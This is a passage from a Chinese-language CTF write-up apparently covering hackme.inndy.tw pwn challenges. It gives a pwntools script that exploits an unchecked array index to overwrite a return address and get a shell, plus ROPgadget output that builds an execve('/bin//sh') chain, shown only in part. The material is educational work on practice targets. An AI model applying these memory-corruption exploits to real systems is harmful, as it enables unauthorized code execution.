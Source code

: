 ```cpp
    }
}

int main()
{
    set_timeout();
    unbuffer_io();
    ask_name();
    run_program();
    say_goodbye();
    return 0;
}
```

其中 case 1 输入数组下表的时候以及 case 2 对该地址写数据的时候都没有进行检测，因此存在这个漏洞。将程序拖进IDA中分析可以得知，arr 数组的起始地址离 ebp 有52个字节那么远，那么从第56个字节开始就是 ret 的地址了。所以对下标14写入 call_me_maybe 的函数地址即可。

借助**pwntools**的利用脚本如下：

```python
from pwn import *

p = remote("hackme.inndy.tw", 7701)

payload = "woet\n" + "\n" +  "1\n" + "14\n" + str(int(0x080485fb)) + "\n" + "0"
p.send(payload)
p.interactive()
```

之后输入 ```cat flag``` 命令即可。

## 53. ROP (Pwn)

根据 54 题的提示，这一题使用 ROPgadget 工具构造 ropchain 即可。

使用ROPgadget 分析 download下来的二进制文件：

```ROPgadget --binary ./rop --ropchain```

然后就可以得到：

```python
#!/usr/bin/env python
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
```